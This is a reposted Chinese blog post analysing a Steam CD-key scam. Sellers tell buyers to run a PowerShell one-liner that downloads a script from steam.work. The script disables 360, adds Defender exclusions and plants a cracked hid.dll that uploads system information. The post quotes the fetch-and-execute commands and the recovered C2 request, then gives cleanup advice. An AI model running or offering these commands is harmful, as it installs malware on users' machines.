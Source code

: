 ```yaml
---
layout: post
title: 一枝红信出墙来-steam假激活入库
fancybos: ture
abbrlink: 38498
date: 2024-07-31 14:49:18
tags:
---
```

## 免责声明

本文为转载文，不代表站长态度

本文一被原作者授权转载

## 正文

### 红信

很多玩家启动Steam后收到红信时都会感觉到一头雾水，实际上，红信是Steam官方对一些违反了用户协议的玩家所采取的一种警告手段，在玩家登录Steam客户端时就会查看到红信提示

1、Steam市场巡查机制，红锁

2、卖家举报，红锁

3、V社的肃清行动，红锁、

总之：steam使用会受到限制

### 清单入库

 结论放在前面：如果买 cdkey 买到让你要输入某个脚本再激活的，那别去管他，立刻退货并举报商家！原因就直接贴我写这个就行...

该商家在使用 Steam 注入病毒假入库来进行诈骗，证据：https://www.52pojie.cn/thread-1949495-1-1.html （本文的来源） 请立即退款，我将会向消费者协会说明本店情况！

该楼楼主打算买一个CDK送给他的朋友，结果一看发货介绍感觉有点不对劲：

```txt
[激活成功后不支持退款]
步骤1：按住键盘Win+X，找到powershell(终端管理员)(A)
步骤2：输入irm steam.work | iex (请复制，不要手打，输入后按回车键)
步骤3：启动STEAM，并在steam里左下角游戏卡密输入卡密，激活完成
```

`irm`和 `iex` 是经典的从网络获取脚本并执行的操作吗，怎么领个激活码还要搞这？

我一开始还以为是自动安装加速器，商家还怪好的捏，直到我激活不了（直接将激活码填入你steam的激活产品），就把这脚本拉下来看了看：

![伪装的steam-work脚本](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01(steam-work)/%E4%BC%AA%E8%A3%85%E7%9A%84steam-work%E8%84%9A%E6%9C%AC_31299c97.webp)

好家伙 这玩意整了个极其有欺骗性的东西，因为powershell的多行注释正好是<# #>，正好 HTML 文件的开头是 `<!DOCTYPE html>` 这鸟人给他改成 `<#!DOCTYPE html>` 就变成 powershell 的注释了， 我都差点没看出来，网页还做了 UA 判断和跳转，真是够阴损

那么真实的代码就只剩两行了：

```shell
irm steam.work/pwsDwFile/new1 -OutFile x.ps1
powershell.exe -ExecutionPolicy Bypass -File x.ps1;
```
不出意料，又是下载脚本：

那就用shell脚本拉下来看看：

![145833we4z5wqcr1w4w51r](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01(steam-work)/145833we4z5wqcr1w4w51r_fc657a00.jpg)



那么它干了什么呢？

- 如果当前正在运行流氓头子360，那么给他强制关闭（头子就是有牌面）
- 给Steam路径添加到Windows Defender的白名单里，方便接下来的操作，并且不论如何都输出<span>绿色<span>的成功（只能说是诡计多端）
- 替换你steam安装目录下的hid.dll文件（这是一个破解的动态连接库文件，用来在你输入卖家给的CDK之后显示成功并且骗过G胖让你下载游戏）
- 替换你C盘当前用户下的SteamActive中的hid.dll文件（和上一个差不多，但是这个里面有对当前用户的系统信息上传）

我怎么兑换个激活码你还给我注入上 Steam了！有病啊！
那么我们便不得不好奇一下注入的文件里到底干了啥呢，我们下下来拖进静态分析，但是里面几乎啥都没有，只有两个有意思的地方：

注意：

那俩个`pdf`文件下载下来就会被WD**秒杀**

这也许是要在前面加白名单的原因

1. 把危险函数 VirtualAlloc 等 伪装成普通函数：

![145838c3nhkbmqphhcbhb1](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01(steam-work)/145838c3nhkbmqphhcbhb1_437ce830.jpg)

看上去他是在尝试现场解压某种payload来执行啊！我们直接开一个 Windows Sandbox 来动态调试一下：

打开 x32dbg，在 zlib.inflate处打断点，很容易就拿到解压出的东西

![](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01%28steam-work%29/%E5%8F%8D%E6%9F%A5x32dbg.webp)

>[eax + 0x4 * 3] -> 解压出缓冲区指针
>
>[eax + 0x4 * 5] -> 解压出数据长度

不看不知道，一看 MZ 开头，PE格式没跑了，直接一个 savefile 把它存下来，拖进 `Binary Ninja`

这个文件也有点诡异，有三个 .text 段里面两个都是空的，还有一个 XRef 几乎扫不出来...总之先看一眼 IAT：

![](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01%28steam-work%29/%E6%A3%80%E6%9F%A5%E6%96%87%E4%BB%B6.webp)

这里还有一些十足诡异的找不到引用的函数，看上去是加密的字符串

那么自然我们现在应该给导出的仅有的几个函数打一下断点看看；首当其冲怀疑的就是这个网络函数

直接先在该 dll 加载前打断点，暂停后在InternetOpenA打断点；发现有反调试检测，用 ScyllaHide Basic 轻松过掉

然后就断下来了

可以知道，病毒请求的是`api.steam.work/api/integral/vs`，但是一直访问发回的是`http-403`看来可能有什么 UA，POST body之类的，继续下断点查一下，最后在：`InternetOpenA InternetConnectA HttpOpenRequestA HttpSendRequestA`，成功复原整个请求

```
HTTP1.1 POST http://api.steam.work/api/integral/vs
Referer: version
user-agent: steam
{"sign":"ckv"}
```

返回值是一堆不知道什么的东西：目测是 hex

`075e4cb9b14878e57a3dbd35de8294ba`

直接拿它给的虚假激活码来激活，可以直接断在 HTTP 请求断点

![](
https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01%28steam-work%29/%E6%88%AA%E8%8E%B7%E8%AF%B7%E6%B1%82.webp)

看起来是成功了，返回一个 code 和一个 data；

这个 ID 又是啥？

我来搜索一下！

![1145350-steam](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01%28steam-work%29/1145350-steam.webp)

哦，哈迪斯的 App ID

那么接着调试，在一通奇奇怪怪的网络请求之后，它下下来一个 8k 的文件到 steam 的目录里，这个文件不会导致steam有任何的变化，看来是病毒的文件。

文件头是：`SQLite format 3`，一个数据库文件。

![](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01%28steam-work%29/%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E6%95%B0%E6%8D%AE%E5%BA%93.webp)

有个appid，和两个不认识的hex；把键名拿去搜搜看：

![清单入库](https://pic.awaae001.top/%E7%BC%98%E7%BC%98%E5%A0%82/2024/01(steam-work)/%E6%B8%85%E5%8D%95%E5%85%A5%E5%BA%93_46e0afdf.webp)

原来是这样！这是一种叫做“清单入库”的已经广为流传的Steam免费入库方式，结果被不法商家用于欺诈消费者，十分恶劣！

## 如何解决？

- 买了，没激活

  - 那么如果你已经购买了，但是还没激活的，请立即找到店家进行退款，可以直接走第三方客服进行维权，运行不知名的指令，这是很危险的行为

- 买了，激活了

  - 如果你已经激活了，那么请先给steam关掉，避免被远在大陆另一侧的G胖发红色情书（如果关不掉可以使用Ctrl + Shift + ESC直接结束进程）

  - 然后卸载steam并且**重新安装**，并且找到你`C:\Users\用户名\AppData\Local\SteamActive`和`C:\Users\用户名\AppData\Local\Steam`手动删除，不然等于白卸

  - 然后查看你的`Windows Defender`**白名单**（打开你的powershell，这次也是管理员，执行 `Get-MpPreference | Select-Object -ExpandProperty ExclusionPath`，如果找到了和**steam相关**的东西，那么`Remove-MpPreference -ExclusionPath 你刚才查出的文件位置`）删除掉被强行加入杀毒软件白名单的**假动态链接库**文件

- 没买，看完原理心有不忿

  - 举报，干死他！

  - **破解有错，不告诉用户相关的风险，甚至不告诉用户这是破解，罪该万死！**

## 本文感谢

- https://www.bilibili.com/opus/912188403001327621
- https://www.52pojie.cn/thread-1949495-1-1.html

由`橘橘橘子汁`授权转载